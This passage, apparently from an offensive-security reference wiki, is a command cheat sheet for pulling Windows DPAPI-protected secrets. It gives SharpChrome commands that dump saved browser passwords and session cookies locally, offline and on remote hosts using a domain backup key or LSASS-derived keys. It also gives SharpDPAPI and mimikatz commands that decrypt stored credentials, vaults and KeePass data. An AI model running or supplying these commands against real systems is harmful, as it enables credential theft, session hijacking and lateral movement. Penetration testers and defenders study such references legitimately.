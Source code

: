 ```cmd
SharpChrome logins  /browser:edge  /unprotect
SharpChrome cookies /browser:chrome /format:csv /unprotect
```

- Offline analysis when you only have files. First extract the AES state key from the profile’s "Local State" and then use it to decrypt the cookie DB:

```cmd
# Dump the AES state key from Local State (DPAPI will be used if running as the user)
SharpChrome statekeys /target:"C:\Users\bob\AppData\Local\Google\Chrome\User Data\Local State" /unprotect
# Copy the hex state key value (e.g., "48F5...AB") and pass it to cookies
SharpChrome cookies /target:"C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Cookies" /statekey:48F5...AB /format:json
```

- Domain-wide/remote triage when you have the DPAPI domain backup key (PVK) and admin on the target host:

```cmd
SharpChrome cookies /server:HOST01 /browser:edge /pvk:BASE64
SharpChrome logins  /server:HOST01 /browser:chrome /pvk:key.pvk
```

- If you have a user’s DPAPI prekey/credkey (from LSASS), you can skip password cracking and directly decrypt profile data:

```cmd
# For SharpChrome use /prekey; for SharpDPAPI use /credkey
SharpChrome cookies /browser:edge /prekey:SHA1_HEX
SharpDPAPI.exe credentials /credkey:SHA1_HEX
```

Notes
- Newer Chrome/Edge builds may store certain cookies using "App-Bound" encryption. Offline decryption of those specific cookies is not possible without the additional app-bound key; run SharpChrome under the target user context to retrieve it automatically. See the Chrome security blog post referenced below.

### Access keys and data

- **Use SharpDPAPI** to get credentials from DPAPI encrypted files from the current session:

```bash
# Decrypt user data
## Note that 'triage' is like running credentials, vaults, rdg and certificates
SharpDPAPI.exe [credentials|vaults|rdg|keepass|certificates|triage] /unprotect

# Decrypt machine data
SharpDPAPI.exe machinetriage 
```

- **Get credentials info** like the encrypted data and the guidMasterKey.

```bash
mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\28350839752B38B238E5D56FDD7891A7

[...]
guidMasterKey      : {3e90dd9e-f901-40a1-b691-84d7f647b8fe}
[...]
pbData             : b8f619[...snip...]b493fe
[..]
```
